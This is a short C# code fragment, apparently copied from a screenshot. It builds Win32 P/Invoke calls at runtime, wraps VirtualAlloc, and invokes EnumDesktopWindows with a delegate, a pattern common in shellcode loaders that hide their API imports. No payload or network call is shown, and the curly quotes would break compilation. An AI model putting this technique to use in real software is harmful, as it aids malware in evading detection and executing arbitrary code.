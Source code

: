 ```cs
        EnumDesktopWindows(threadDesktop, dwDelegate, IntPtr.Zero);

      }

      return;

    }

    public static object DynamicPInvokeBuilder(Type type, string library, string method, Object[] args, Type[] paramTypes)

    {

      AssemblyName assemblyName = new AssemblyName(“zz”);

      AssemblyBuilder assemblyBuilder = AppDomain.CurrentDomain.DefineDynamicAssembly(assemblyName, AssemblyBuilderAccess.Run);

      ModuleBuilder moduleBuilder = assemblyBuilder.DefineDynamicModule(“zz”);

      MethodBuilder methodBuilder = moduleBuilder.DefinePInvokeMethod(method, library, MethodAttributes.Public | MethodAttributes.Static | MethodAttributes.PinvokeImpl, CallingConventions.Standard, type, paramTypes, CallingConvention.Winapi, CharSet.Ansi);

      methodBuilder.SetImplementationFlags(methodBuilder.GetMethodImplementationFlags() | MethodImplAttributes.PreserveSig);

      moduleBuilder.CreateGlobalFunctions();

      MethodInfo dynamicMethod = moduleBuilder.GetMethod(method);

      object res = dynamicMethod.Invoke(null, args);

      return res;

    }

    public static IntPtr VirtualAlloc(IntPtr lpAddress, UInt32 dwSize, UInt32 flAllocationType, UInt32 flProtect)

    {

      Type[] paramTypes = {
        typeof (IntPtr),
        typeof (UInt32),
        typeof (UInt32),
        typeof (UInt32)
      };

      Object[] args = {
        lpAddress,
        dwSize,
        flAllocationType,
        flProtect
      };

      object res = DynamicPInvokeBuilder(typeof (IntPtr), “Kernel32.dll”, “VirtualAlloc”, args, paramTypes);

      return (IntPtr) res;

    }

```